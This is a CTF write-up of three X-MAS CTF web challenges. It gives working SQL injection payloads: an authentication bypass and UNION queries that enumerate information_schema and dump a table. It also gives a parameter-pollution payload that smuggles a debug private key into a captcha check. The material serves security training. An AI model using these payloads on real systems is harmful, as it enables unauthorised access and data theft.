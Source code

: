 # Web Exploits

## Sequel Fun

Easy sql injection

Relevant source code
```php
<?php
include ("config.php");
if (isset ($_GET['user']) && isset ($_GET['pass'])) {
  $user = $_GET['user'];
  $pass = $_GET['pass'];
  if (strpos ($user, '1') === false && strpos ($pass, '1') === false) {
    $conn = new mysqli ($servername, $username, $password, $dbname);
    $result = mysqli_query ($conn, "SELECT * FROM users WHERE user='" . $user . "' AND pass='" . $pass . "'", MYSQLI_STORE_RESULT); // TO-DO: Remove elf:elf account

    if ($result === false) {
      echo "<b>Our servers have run into a query error. Please try again later.</b>";
    } else {
      if ($result->num_rows !== 0) {
        $row = mysqli_fetch_array ($result, MYSQLI_ASSOC);

        echo "<h1>You are logged in as: " . $row["user"] . "</h1><br>";

        echo "<b class='flag'>";
        if ($row ["uid"] === "0")
          echo $flag;
        else
          echo "Welcome elf!";
        echo "</b>";

      } else {
        echo "<b>Login fail.</b>";
      }
    }
  } else {
    echo "<b>I don't like the number 1 :(</b>";
  }
} else {
  echo '<form class="center">
    <h1>Santa Login:</h1>
    <label>Username:</label> <input type="text" name="user" autocomplete="off"><br>
    <label>Password:</label> <input type="password" name="pass" autocomplete="off"><br>
    <input type="submit" value="Connect">
  </form>';
}
?>
```

Set username to `' OR uid = 0 #` and whatever to password

Flag: ```X-MAS{S0_1_c4n_b3_4dmin_w1th0ut_7h3_p4ssw0rd?}```

## Roboworld
> A friend of mine told me about this website where I can find secret cool stuff. He even managed to leak a part of the source code for me, but when I try to login it always fails :(
> Can you figure out what's wrong and access the secret files?
> Remote server: http://challs.xmas.htsp.ro:11000

Given file: leak.py
```py
from flask import Flask, render_template, request, session, redirect
import os
import requests
from captcha import verifyCaptchaValue

app = Flask(__name__)

@app.route('/')
def index():
    return render_template("index.html")

@app.route('/login', methods=['POST'])
def login():
    username = request.form.get('user')
    password = request.form.get('pass')
    captchaToken = request.form.get('captcha_verification_value')

    privKey = "XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX" #redacted
    r = requests.get('http://127.0.0.1:{}/captchaVerify?captchaUserValue={}&privateKey={}'.format(str(port), captchaToken, privKey))
    #backdoored ;)))
    if username == "backd00r" and password == "catsrcool" and r.content == b'allow':
        session['logged'] = True
        return redirect('//redacted//')
    else:
        return "login failed"


@app.route('/captchaVerify')
def captchaVerify():
    #only 127.0.0.1 has access
    if request.remote_addr != "127.0.0.1":
        return "Access denied"

    token = request.args.get('captchaUserValue')
    privKey = request.args.get('privateKey')
    #TODO: remove debugging privkey for testing: 8EE86735658A9CE426EAF4E26BB0450E from captcha verification system
    if(verifyCaptchaValue(token, privKey)):
        return str("allow")
    else:
        return str("deny")
```

If you make a request to `/captchaVerify` endpoint with `privateKey=8EE86735658A9CE426EAF4E26BB0450E`, you will get `allow` regardless of `captcha value`

We need to make `/login` post endpoint call the `/captchaVerify` endpoint with our poisoned `captchaToken`

We need post body to be
```user=backd00r&pass=catsrcool&captcha_verification_value=A%26privateKey%3D8EE86735658A9CE426EAF4E26BB0450E```

which makes the login route do a request like
```
GET /captchaVerify?captchaUserValue=A&privateKey=8EE86735658A9CE426EAF4E26BB0450E&privateKey=XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

When doing `privKey = request.args.get('privateKey')`
`privkey` gets set to our debug privateKey instead

Or in burp set to this params

![burp](https://i.imgur.com/Ul9WFlT.png)

Send it and u get redirected to 

![dashboard](https://i.imgur.com/B6UgUqh.png)

Open the wtf.mp4 can u get the flag reverse

Do a frame grab and manually mirror the flag or ocr or whatever method

![](https://i.imgur.com/YC7UA1G.png)

Flag: ```X-MAS{Am_1_Th3_R0bot?_0.o}```

## Execute no evil

```
!32302 0x4765726f6e696d6f or description=

!32302 0x4; or description=

!32302 0x4 UNION SELECT 1,2,3 or description=

!32302 0x41 or description like '%Cad' or description=

!32302 0x41 or description like '%Cad%' # or description=

!32302 0x4 UNION SELECT 1,2,3 from users where name =
```
> This one enumerate tables

```
!32302 0x4 UNION SELECT 1, table_schema as name ,table_name as description FROM information_schema.tables UNION SELECT 1,2,3 from users where name =  
```

> This one list columns

```
!32302 0x4 UNION SELECT 1, table_name as name, column_name as description FROM information_schema.columns WHERE table_name = 'flag' UNION SELECT 1,2,3 from users where name =
```

> This one dumps flag

```
!32302 0x4 UNION SELECT 1, 2 as name, whatsthis as description FROM flag UNION SELECT 1,2,3 from users where name =
```

Flag : ```X-MAS{What?__But_1_Th0ught_Comments_dont_3x3cvt3:(}```